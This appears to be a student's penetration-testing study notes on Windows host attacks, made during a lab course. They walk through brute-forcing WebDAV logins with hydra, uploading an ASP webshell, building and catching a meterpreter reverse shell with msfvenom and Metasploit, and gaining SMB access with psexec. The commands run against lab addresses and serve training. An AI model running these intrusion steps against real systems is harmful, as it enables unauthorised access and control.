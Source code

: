 
## System/Host-based attacks
#Systemattacks #hostbasedattacks

- Looking at exploiting the system itself (Windows/Linux)
- Usually done after a network exploit (after gaining access to the network)
- Attacks are focused on exploiting inherent vulns in misconfigured OS 
- Useful when attacking a host (eg some random employee latop connected to the server which you prev accessed using a network attack)
- The host might not be running anyt except SMB (or other stuff natively built into windows ) to file share with the server, so understanding of windows is necessary
- impt for exploits where hosts do not have typical public-facing services running (HTTP/HTTPS etc)

Outline:
- Windows/Linux
	- Overview of vulns
	- Exploit these vulns
	- Priveledge escalation 
		- kernal exploitation/impersonation
	- File system vulns
	- Credential dumping
	- Lateral movement 
		- Use of credentials found to move between targets

# Windows
### Overview:
Common vulns
MS08-067(Conflicker) to MS17-010 (Eternal Blue)

Lots of legacy versions exist, fragmented nature of companies with diff unpatched vers leaves vuln

Built on C so vulnerable to common exploits:
- buffer overflow
- arbitrary code exec etc
Default install is not built to be secure (even in windows 10 etc)
Endpt protection has to be handled by the company (antivirus/firewall settings etc)

Common exploited services native to windows:
| Protocol/Service                                  | Default Ports        | Purpose                                                                         |
| ------------------------------------------------- | ------------ | ------------------------------------------------------------------------------- |
| Microsoft IIS (internet Information system)       | TCP 80/443   | Proprietary server software that runs on windows                                |
| WebDAV (web distributed authoring and versioning) | TCP 80/443   | HTTP extenstion allows web server to act as a file server                       |
| SMB/CIFS                                          | TCP 445      | Network file sharing and peripherals between computers on a LAN (eg Printers)                 |
| RDP                                               | TCP 3389     | Proprietary GUI used to remotely authenticate and interact with windows systems |
| WinRM (Remote management)                         | TCP 5986/443 | Remote management protocol for remote access to windows systems                 |
|                                                   |              |                                                                                 |


### Exploit WevDAV running on Microsoft IIS
#webdav
- IIS is a windows webserver. Functions like any web server (eg Apache or Nginx)
- Can be used for static/dynamis webpages
- developed in asp.net and PHP (can be set up to host asp or php web applicaiton)

- WebDav allows web server to function as a file server (like FTP) to allow collaborative editing etc
- Without SSL cert it runs on port 80 else with SSL it runs on 443 (ie http vs https)
- After bruteforcing auth, malicious ASP payload can be uploaded and executed  to create a reverse shell
Tools:
davtest - USed to scan auth and expl webDAV erver
cadaver - file upload/dl on-screen disp etc etc

Lab:
nmap script http-enum to scan the server
hydra to brute force auth in the /webdav/ directory found
```bash
hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt 10.2.17.124 http-get /webdav/
```
Davtest to see wat types of files can be uploaded
```bash
davtest -auth bob:password_123321 -url http://10.2.17.124/webdav
```
From the test prev, Txt,Asp and http files can be executed
So
Cadaver used to upload Rev shell
```bash
cadaver http://10.2.123.123/webdav
#enter username and password
#enumerate like a normal ftp server
```
Kali comes with some webshells found at:
ls -al /usr/share/webshells/

- Upload the asp shell found into the webdav server using cadaver
```cadaver
put /usr/share/webshells/asp/webshell.asp
```
Viewing the directory on the browser the webshell should be there for u to open.
Can run code in the box to execute commands on the target system
type c:\\flag.txt

#### Exploit using msf instead
1.msfvenom
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.5.2
LPORT=1234
-f asp > shell.asp
```
Note: 32 bit is usally used as it works for both 32 and 64 bit if u dont know the target servers specification

2.Cadaver to upload shell.asp (seen above)
Clicking the shell.asp in /webdav/ executes the payload, b4 that set up listener in msfconsole

```bash
#starts metasploit and metasploit framework database (Pretty sure it starts itself but idk?? yea...dont need the front part)
service postgresql start && msfconsole
```

```bash
#set options to match the msfvenom payload
use multi/handler
set payload windows/meterpreter/reverse_tcp
set port 1234
```

2b. Or use windows/iis/iis_webdav_uplaod_asp in msfconsole to upload (everything done on its own, even deletes the payload after)

```msf
#slightly tricky
set PATH webdav/matasploit%RAND%.asp
```

### Exploit SMB running on Microsoft IIS with PsExec
#smb
SMB intro
- 2 level authentication
	1. User authentication (pword+user)
	2. Share authentication (pword to access share)
- Utilise a challenge response auth system (encrypted string is sent back to match the servers) (ie the pword used)

PsExec intro
- Microsofts lightweight replacement for telnet to execute processes remotely
- auth is performed via SMB
- similar to RDP but without GUI (ie only tru CMD)
- It is a windows util so doesnt work in linux (unless u use wine), SO 
- psexec.py is used instead --> python tool same as psexec
- ^ its a Impacket tool wow
```bash
#authenticate user
psexec.py Administrator@10.2.24.221 cmd.exe
#you will be prompted for password
```
- Very clean as its a legit login (no malicious files etc)

To get auth
- SMB brute force
	- can narrow down users to administrator (every server has this acct)
	- smb_login on msf with 
	- /usr/share/metasploit-framework/data/wordlists/common_users.txt
	- pass_file /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
If want meterpreter
- exploit/windows/smb/psexec
- Enter creds found
-  run